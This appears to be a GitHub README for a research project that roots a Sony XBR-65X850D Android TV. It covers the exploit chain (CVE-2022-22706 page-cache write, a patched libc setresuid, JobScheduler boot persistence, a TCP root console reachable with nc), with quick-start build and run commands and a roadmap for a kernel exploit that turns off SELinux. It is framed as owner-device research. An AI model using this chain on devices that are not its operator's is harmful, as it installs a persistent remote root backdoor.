

<h1 align="center">Sony XBR-65X850D — Root &amp; Persistence</h1>

<p align="center">
  <em>Local privilege escalation, root shell and reboot-surviving persistence on a<br>
  Sony Bravia 4K Android TV (SVP-DTV15 / MediaTek MT5890) that never received a security patch after 2020.</em>
</p>

<p align="center">
  
  
  
  
  
  
  
</p>

---

## TL;DR

This TV ships with **`ro.debuggable=0`**, **`ro.boot.flash.locked=1`**, verified boot, an
enforcing SELinux policy and a security patch level of **2020-01-01**. Every conventional
root path (firmware downgrade, USB update, UART, setuid binaries) is closed.

It was rooted anyway, using a public but **never-applied** kernel driver bug:

1. **CVE-2022-22706** in the Mali `kbase` driver gives an *arbitrary page-cache write*
   from plain ADB shell (uid 2000).
2. That write is used to patch **`libc.so`'s `setresuid`** so that exactly one app keeps
   `uid 0` instead of dropping privileges.
3. The patcher is compiled into that app as a **JNI library**, and a **persisted
   JobScheduler job** re-applies it on every boot.
4. The app then re-launches itself, becomes the only `uid 0` process on the device, and
   exposes a **TCP root console** — reachable over LAN or Tailscale.

**Verified result:** after a clean reboot, with *zero* manual steps, a remote shell reports
`uid=0(root)` on the TV. The rest of the system is untouched and keeps running normally.

> ⚠️ **This is Android framework-level root, not kernel-level root.** SELinux is still
> enforcing and the process stays in `u:r:untrusted_app:s0`, so raw filesystem operations
> outside the sandbox remain blocked. See [Limitations & Roadmap](docs/06-limitations-and-roadmap.md).
> The device must be yours. See [legal](#-legal--responsible-disclosure).

---

## The chain



## Device profile

| | |
|---|---|
| Model | Sony **XBR-65X850D** (SVP-DTV15) |
| SoC | MediaTek **MT5890** (armv7, 32-bit userspace) |
| GPU | ARM **Mali-T62x** · Midgard r1p0 · kbase **r20p0-01rel0** (UK **10.6**) |
| Android | **8.0.0** · build `OPR2.170623.027.S16` · **6.827** |
| Kernel | **3.10.79** armv7l (built 2020-03-04) |
| SELinux | **enforcing** |
| Patch level | **2020-01-01** |
| Hardening | `ro.secure=1`, `ro.debuggable=0`, `ro.boot.flash.locked=1`, dm-verity |
| Entry point | ADB over TCP (`uid 2000`, `u:r:shell:s0`) — the only usable foothold |

## Vulnerabilities

| ID | Component | Status here |
|---|---|---|
| [**CVE-2022-22706**](https://nvd.nist.gov/vuln/detail/CVE-2022-22706) | Mali `kbase` – user-buffer import pins read-only but maps writable | ✅ **exploited** → arbitrary page-cache write |
| [**CVE-2022-20186**](https://nvd.nist.gov/vuln/detail/CVE-2022-20186) | Mali `kbase_mem_alias` – `nents * stride` u64 overflow | ⚠️ **confirmed present** on-device, *not weaponised* (see roadmap) |

Both were fixed upstream long after this firmware stopped shipping updates, which is the
whole point: the bootloader is locked, but the kernel driver was frozen in 2020.

## What you actually get

| Capability | Status |
|---|---|
| `uid=0` shell on the device | ✅ |
| Survives cold reboot, automatically | ✅ |
| Reachable over LAN **and** Tailscale | ✅ |
| `settings put/get` — any global/secure key | ✅ |
| `pm install / grant / uninstall / enable` | ✅ |
| `cmd` services, `am force-stop`, reboots | ✅ |
| Full `/sdcard` access | ✅ |
| Arbitrary page-cache write primitive (as shell) | ✅ |
| Raw `/data/local/tmp`, `/data/system` access | ❌ SELinux |
| Read root-only binaries (`logd`, `vold`, …) | ❌ SELinux |
| `setenforce 0`, `/dev/block`, remount `/system` | ❌ SELinux — needs kernel-level root |

## Repository map

```
.
├── README.md                     ← you are here
├── docs/
│   ├── 01-device-and-recon.md        attack surface, what was ruled out, why
│   ├── 02-cve-2022-22706.md          root cause + the page-cache write primitive
│   ├── 03-root-takeover.md           the setresuid patch (and why "targeted")
│   ├── 04-persistence.md             JNI + JobScheduler boot chain
│   ├── 05-zygote-domain.md           bonus: uid 0 code execution in u:r:zygote:s0
│   ├── 06-limitations-and-roadmap.md the SELinux wall and the kernel path
│   ├── 07-kernel-primitive-analysis.md  CVE-2022-20186 code-level analysis + test plan
│   └── ENGINEERING-LOG.md            raw, chronological lab notebook
├── exploit/
│   ├── page-cache-write/pcwrite.c    standalone working primitive (CLI)
│   ├── cve-2022-20186/alias_dryrun.c arithmetic harness (safe: never fires by default)
│   └── payloads/                     ARM payloads (.s) used in the chain
├── apk/
│   ├── jni/pwn.c                     the patcher as a JNI library
│   ├── src/com/pwn/probe/            app: boot job, foreground service, console
│   ├── AndroidManifest.xml
│   └── build.ps1                     full build chain (clang → d8 → aapt2 → apksigner)
└── tools/
    ├── rootconsole.ps1               interactive client
    └── tv-restore.ps1                "put my show back after a reboot" helper
```

## Quick start

**1. The primitive** (proves the bug, from `adb shell`, uid 2000):

```bash
clang --target=armv7a-linux-androideabi21 --sysroot=$NDK/sysroot \
      -D_FILE_OFFSET_BITS=64 -O1 -o pcwrite exploit/page-cache-write/pcwrite.c
adb push pcwrite /data/local/tmp/ && adb shell chmod 755 /data/local/tmp/pcwrite
adb shell /data/local/tmp/pcwrite /system/etc/hosts 0 3132372e302e302e320a
#  → reads back modified, on-disk file untouched, reboot reverts it
```

**2. The persistent root console:**

```powershell
cd apk ; .\build.ps1            # requires JDK 17 + SDK build-tools + NDK
adb install -r pwn.apk
adb shell am start -n com.pwn.probe/.Main    # once: arms the persisted job
```

**3. Connect:**

```bash
nc <tv-ip> 4445
<YOUR-TOKEN>
id
```

## Evidence

Root console answering over a tailnet, after a reboot with no manual steps:

```console
BANNER: OK uid=0 pid=5024
uid=0(root) gid=10014(u0_a14) groups=10014(u0_a14),3003(inet),9997(everybody),...
context=u:r:untrusted_app:s0:c512,c768
PERSISTENT_ROOT_OK
```

The patch was re-applied automatically by the boot job:

```console
$ adb shell od -An -tx1 -j 0x4a990 -N 4 /system/lib/libc.so
 3e 6c ff ea          # b 0x25a90  — patched, on a fresh boot
```

The framework-level root is real (uid 0 bypasses Android's permission checks):

```console
--- settings put ---        rc=0
--- cmd package ---         package:com.android.cts.priv.ctsshim ...
--- pm grant ---            <permission check passed>
```

And the SMACK case: our code running as **root inside zygote** (see [docs/05](docs/05-zygote-domain.md)):

```console
avc: denied { execute } for name="sh" dev="mmcblk0p44"
    scontext=u:r:zygote:s0 tcontext=u:object_r:shell_exec:s0 tclass=file permissive=0
```

## How the write primitive works (short version)

`kbase` decides whether to pin an imported user page writable by looking at
`KBASE_REG_GPU_WR`, but decides whether the *CPU mapping* is writable by
`KBASE_REG_CPU_WR`. Set the latter without the former and the kernel pins your page
**read-only** while giving userspace a **writable** alias.

Point that import at a read-only file mapping (`mremap` a file page onto the imported
address) and the "user page" is the file's **page-cache page**. A soft-event-wait atom
with an external resource forces the pin; writing through the alias then edits the page
cache. No kernel symbol, no address leak, no GPU job of consequence — just five ioctls.

Full ioctl-by-ioctl breakdown: **[docs/02-cve-2022-22706.md](docs/02-cve-2022-22706.md)**.

## Why "targeted" setresuid matters

The first version returned `0` from `setresuid` unconditionally, which made **every** app on
the TV run as `uid 0`. That is spectacularly unstable — the TV soft-rebooted during testing.
The shipping payload compares the requested uid against the target app's uid (`10014`) and
only then skips the privilege drop; every other process gets the real syscall. Result:

```console
com.android.tv.settings   1000  u:r:system_app:s0        ← normal
com.pwn.probe                0  u:r:untrusted_app:s0     ← root
```

## Legal & responsible disclosure

- The techniques here are for **hardware you own**. Running this against a device you do
  not own is illegal in most jurisdictions.
- Both CVEs are **public and long patched upstream**; nothing here is a zero-day. The
  device is vulnerable only because Sony stopped shipping security updates for a 2016 TV.
- The published sources are sanitised: device serial, LAN/tailnet addresses and the console
  auth token are placeholders. Replace them with your own.
- If you run the console, **bind it privately** (tailnet/VPN) and change the token. It is a
  root shell on your network.

## Roadmap

The only thing between "framework root" and *full* root is SELinux. The remaining work is
the kernel route: **[CVE-2022-20186](https://nvd.nist.gov/vuln/detail/CVE-2022-20186)**
(`kbase_mem_alias` `nents × stride` u64 overflow, already confirmed on this device) →
page-table overlap → arbitrary physical mapping → kernel R/W → `selinux_enforcing = 0`.
Details in [docs/06](docs/06-limitations-and-roadmap.md); code-level analysis, the measured
environment (including the fact that our uid 0 has an *empty capability bounding set*) and
the staged test plan are in [docs/07](docs/07-kernel-primitive-analysis.md).

## Credits

- **CVE-2022-22706** / **CVE-2022-20186** research: the Android security community and
  Arm's Mali driver advisories.
- Midgard job/atom format reference: Mesa's `panfrost` sources.
- Everything device-specific in this repo was established empirically on a real
  XBR-65X850D — the raw trail is in [docs/ENGINEERING-LOG.md](docs/ENGINEERING-LOG.md).

---

<p align="center"><sub>Rooted on a TV that said no. 🛠️</sub></p>
